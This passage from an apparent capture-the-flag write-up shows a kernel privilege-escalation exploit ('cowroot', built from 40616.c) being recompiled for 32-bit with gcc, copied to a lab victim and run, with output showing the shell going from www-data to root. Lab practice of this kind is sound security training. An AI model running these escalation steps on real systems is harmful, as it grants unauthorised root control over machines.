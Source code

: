 ```
file cowroot
cowroot: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aec4f878e26d93014e1c5c9ab60160916ef07dd5, for GNU/Linux 3.2.0, not stripped
```

64 bit?  The victim is 32 bit!  Why would you do that?!?!?  Whoever compiled this is in idiot!  Oh wait.  I compiled it.  Now, let me give a quick explanation.  As a blue teamer, I know the more a bad guy does on a system, the more chances I have to catch them.  In general, I try to do the most work on my attacker machine.  In this case, I compiled the file on my 64 bit VM, so GCC compiled it for my architecture.  Duh!  Now let's try again but specify 32 bit:

>gcc -m32 40616.c -o cowroot32 -pthread

Now, let's transfer that one to the victim and run it.

```
whoami
www-data
./cowroot32
whoami
root
cd /root
ls
proof.txt
```

Victory!  I wonder if there were other ways to get root like there were other ways to get user?  What about those other 2 exploits?

